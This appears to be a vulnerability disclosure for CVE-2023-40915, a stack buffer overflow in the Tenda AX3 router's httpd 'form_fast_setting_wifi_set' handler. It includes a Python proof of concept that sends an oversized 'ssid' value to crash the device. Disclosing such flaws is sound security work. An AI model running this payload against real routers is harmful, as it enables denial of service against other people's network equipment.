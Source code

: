 USE CVE-2023-40915
===========

Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **form_fast_setting_wifi_set**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **ssid** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **form_fast_setting_wifi_set**, the content obtained by program through parameter **ssid** given by http is passed to variable **v5**. Then, the variable **v5** is equal to the variable **v6**, and the content of **ssid** will be copyed to the variable **par**.However,**par** is on the stack,but there isn't any length check of **v6**.. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/0.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/fast_setting_wifi_set"

payload = "a"*0x1000
data = {
    "ssid": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/1.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/2.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/3.png)
